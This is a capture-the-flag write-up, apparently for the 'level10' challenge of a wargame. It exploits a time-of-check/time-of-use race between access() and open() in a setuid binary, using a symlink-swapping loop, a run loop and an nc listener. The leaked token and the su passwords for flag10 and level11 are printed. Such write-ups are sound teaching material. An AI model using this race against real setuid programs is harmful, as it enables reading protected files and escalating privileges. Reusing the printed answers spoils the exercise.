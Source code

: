 We have to file, one token which we can't read beacuse only the owner `flag10` has read access, and a binary file that we can execute.
Using ghidra, and the usage, this programm require a file and a host.
Regarding of the host, we will use 0.0.0.0 as it will connect to every IPV4 of the machine
While decompiling the main of the binary file, we see the main issue :
First the program will check if the file passed as `argv[1]` can be accessed by the real user (in our case `level10`), and after that, the same programm will try to open the file.
Our goal is to trick the program to think that our `argv[1]` is our file, but in the end, it is the file `token`.
Furthermore, we need to stay connected to the socket opened by the program since the content of the readed file will be outputed there.
We will be doing so by using nc : `nc -kl 6969`
To trick our program, we will first create our file : `echo "Hello" > /tmp/our_file`
Next, we will create a symbolic link, linking altenatively `/tmp/our_file` and `/home/user/level10/token`.
We will be doing so by having a second shell running this command : 
`while true; do ln -sf /tmp/our_file /tmp/link; ln -fs /home/user/level10/token /tmp/link; done`
The `f` option will overide any existing symbolic link.
To be sure to have : 
-First a link to our file to pass the `acces()` checkpoint
-Second a link to the file `token` when the program will try to open it,
we will run this command in a third shell :
`while true; do ./level10 /tmp/link 0.0.0.0; done`
In the shell whose listening to the socket, we will se 2 different ouptut :
First :
```
.*( )*.
Hello
```
Second :
```
.*( )*.
woupa2yuojeeaaed06riuj63c
```
The second one is the password to connect as flag10:
```
su flag10
woupa2yuojeeaaed06riuj63c
```

```
su level11
feulo4b72j7edeahuete3no7c
```

